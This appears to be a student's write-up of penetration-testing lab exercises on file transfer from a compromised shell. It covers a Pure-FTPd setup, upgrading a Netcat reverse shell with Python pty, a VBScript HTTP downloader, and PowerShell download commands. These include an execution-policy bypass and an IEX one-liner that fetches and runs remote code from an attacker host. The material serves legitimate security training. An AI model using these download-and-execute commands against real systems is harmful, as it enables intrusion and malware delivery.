 # 16.1.4 Considerations and Preparations
**1.  Start the Pure-FTPd FTP server on your Kali system, connect to it using the FTP client on the Debian lab VM, and observe how the interactive prompt works.**

The following script will create the necessary users and gorups as well as start the FTP service
```bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
```


![[systemctl_ftpd.png]]

We can now switch to our Debian client and attempt to connect.
![[frp_connect.png]]


**2.  Attempt to log in to the FTP server from a Netcat reverse shell and see what happens.**

After setting up our listener on the Debian client we can use netcat to connect to our listener. We then use the command "ftp" to attempt to interact with our FTP server running on our Kali machine. This will result in a loss of control of our shell.
![[non-interactive_ftp.png]]

**3.  Research alternative methods to upgrade a non-interactive shell.**

To upgrade our shell we can use the python module "pty" , a standard module that is often used to upgrade to interactive shells. We can see that after upgrading our shell via "pty" we can access the ftp server running on our Kali machine.
![[interactive_ftp.png]]


# 16.2.6 Transferring Files with Windows Hosts

**1.  Use VBScript to transfer files in a non-interactive shell from Kali to Windows.**

We must first write a vbs script which will act like a simple http downloader.
```vbs
strUrl = WScript.Arguments.Item(0)
StrFile = WScript.Arguments.Item(1)
Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0
Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0
Const HTTPREQUEST_PROXYSETTING_DIRECT = 1
Const HTTPREQUEST_PROXYSETTING_PROXY = 2
Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts
 Err.Clear
 Set http = Nothing
 Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
 If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest")
 If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP")
 If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP")
 http.Open "GET", strURL, False
 http.Send
 varByteArray = http.ResponseBody
 Set http = Nothing
 Set fs = CreateObject("Scripting.FileSystemObject")
 Set ts = fs.CreateTextFile(StrFile, True)
 strData = ""
 strBuffer = ""
 For lngCounter = 0 to UBound(varByteArray)
 ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1)))
 Next
 ts.Close
```

We can then run the script with cscript and download files from our Kali machine's server.
![[Pasted image 20220720022641.png]]

**2.  Use PowerShell to transfer files in a non-interactive shell from Kali to Windows and vice versa.**

For more recent versions of Windows a much better approach is to utilize PowerShell. We start by screating the script with the following code.
```
$webclient = New-Object System.Net.WebClient 
$url = "http://192.168.119.130:9002/evil.txt" 
$file = "new-exploit.txt" 
$webclient.DownloadFile($url,$file) 
```

This creates the wget.ps1 script. In order to run the script we must first enable the execution of PowerShell scripts. We can do this with the following command, including a few extra flags to set a few other options.
`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1`
And we can see our file has downloaded.
![[Pasted image 20220720024112.png]]

This script can be run in a number of ways. For example, a one liner version:
`powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.130/evil.txt', 'new-evil.txt')`

Or as a one liner, executing the requested payload remotely rather than saving and execute the file locally.
`powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')`

**3.  For PowerShell version 3 and above, which is present by default on Windows 8.1 and Windows 10, the cmdlet [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-6) was added. Try to make use of it in order to perform both upload and download requests to your Kali machine.**

To use Invoke-WebRequest to download a file from our Kali server we can use the following command (note the shorthand IWR which is used in place of the full command Invoke-WebRequest)
`powershell IWR -uri http://192.168.119.130:9002/evil.txt -OutFile evil_IWR.txt`

In order to upload files I will be using a simple python script which modifies the SimpleHTTPServer python module in order to accept PUT requests. From here we can modify our Invoke-WebRequest command to upload (or "put") files.



**4.  Use TFTP to transfer files from a non-interactive shell from Kali to Windows.**

**Note:** If you encounter problems, first attempt the transfer process within an interactive shell and watch for issues that may cause problems in a non-interactive shell.